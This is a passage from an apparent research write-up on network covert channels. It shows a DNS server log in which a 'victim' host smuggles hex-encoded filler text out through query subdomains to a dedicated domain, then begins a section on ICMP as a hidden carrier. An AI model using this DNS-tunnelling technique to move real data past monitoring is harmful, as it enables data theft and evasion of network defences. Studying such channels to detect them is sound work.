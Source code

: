 ```
24-Oct-2021 15:17:35.350 client @0x7f02400a1ca0 victim_ip#60439 (652072656C65617365206F66204C65747261736574207368656574.15.scs.kowercyjne.kanaly): query: 652072656C65617365206F66204C65747261736574207368656574.15.scs.kowercyjne.kanaly IN A + (server_ip)
24-Oct-2021 15:17:35.399 client @0x7f0242e939f0 victim_ip#58029 (7320636F6E7461696E696E67204C6F72656D20497073756D207061.16.scs.kowercyjne.kanaly): query: 7320636F6E7461696E696E67204C6F72656D20497073756D207061.16.scs.kowercyjne.kanaly IN A + (server_ip)
24-Oct-2021 15:17:35.445 client @0x7f0242ea2770 victim_ip#62247 (7373616765732C20616E64206D6F726520726563656E746C792077.17.scs.kowercyjne.kanaly): query: 7373616765732C20616E64206D6F726520726563656E746C792077.17.scs.kowercyjne.kanaly IN A + (server_ip)
24-Oct-2021 15:17:35.494 client @0x7f02400a1ca0 victim_ip#65026 (697468206465736B746F70207075626C697368696E6720736F6674.18.scs.kowercyjne.kanaly): query: 697468206465736B746F70207075626C697368696E6720736F6674.18.scs.kowercyjne.kanaly IN A + (server_ip)
24-Oct-2021 15:17:35.540 client @0x7f0242e939f0 victim_ip#59519 (77617265206C696B6520416C64757320506167654D616B65722069.19.scs.kowercyjne.kanaly): query: 77617265206C696B6520416C64757320506167654D616B65722069.19.scs.kowercyjne.kanaly IN A + (server_ip)
24-Oct-2021 15:17:35.587 client @0x7f0242ea2770 victim_ip#58029 (6E636C7564696E672076657273696F6E73206F66204C6F72656D20.20.scs.kowercyjne.kanaly): query: 6E636C7564696E672076657273696F6E73206F66204C6F72656D20.20.scs.kowercyjne.kanaly IN A + (server_ip)
24-Oct-2021 15:17:35.633 client @0x7f02400a1ca0 victim_ip#58120 (497073756D2E.21.scs.kowercyjne.kanaly): query: 497073756D2E.21.scs.kowercyjne.kanaly IN A + (server_ip)
24-Oct-2021 15:17:35.679 client @0x7f0242e939f0 victim_ip#64090 (stop.scs.kowercyjne.kanaly): query: stop.scs.kowercyjne.kanaly IN A + (server_ip)
```
    
<div>
<center><i> Listing 6. DNS queries from DNS server log file. </i></center><br>
</div>

Recovered data is shown in Figures 2 and 3. In summary, querying Domain Name System records, has been succesfully used as a carrier for hidden communication. 

![](https://codimd.s3.shivering-isles.com/demo/uploads/upload_8f1a7910438631b99efea182c6765941.png)
<div>
<center><i> Figure 2. HEX encoded data restored from recieved queries </i></center><br>
</div>


![](https://codimd.s3.shivering-isles.com/demo/uploads/upload_736ecd25a4fd12ad77eeccc62675c8d7.png)
</div>
<div>
<center><i> Figure 3. ASCII data restored from recieved queries </i></center><br>
</div>
---

## 4. Hidden Communication using ICMP
### 4.1 Internet Control Message Protocol
<div style="text-align: justify">
Internet Control Message Protocol is widely used for diagnostic purposes and represents a set of messages capable of error reporting, checking host reachability or connectivity beetween network nodes, which are sent with the usage of IP header [5]. As ICMP is applicable in well-known tools like PING and TRACEROUTE or even to notify routers about availability of better route to the destination, it is usually not the object of suspicious. Due to its prevalence in ICT networks, it becomes a protocol often used by attackers not only in DDoS attacks [6] but also as a carrier in covert channels, to store hidden information in payload.
</div>
